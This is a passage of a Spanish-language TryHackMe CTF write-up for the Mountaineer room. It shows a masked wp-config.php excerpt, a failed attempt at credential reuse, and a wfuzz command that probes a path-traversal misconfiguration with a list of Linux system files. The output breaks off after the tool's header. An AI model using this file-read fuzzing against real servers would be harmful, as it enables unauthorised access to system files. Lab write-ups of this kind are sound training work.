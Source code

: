 ![](../assets/img/mountaineer-tryhackme-writeup/8.png)

Intentamos reutilizar las credenciales de la base de datos encontradas en el fichero de configuración *wp-config.php*, pero no podemos reutilizarlas sobre ningún usuario:
```
/ ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', '**************' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```

Lanzamos **wfuzz** con un diccionario de ficheros relevantes Linux, logramos enumerar varios de ellos:
```
> wfuzz -c --hl 7 --hc 404 -w files/file_inclusion_linux.txt http://mountaineer.thm/wordpress/images..FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mountaineer.thm/wordpress/images..FUZZ
Total requests: 2299

=====================================================================
```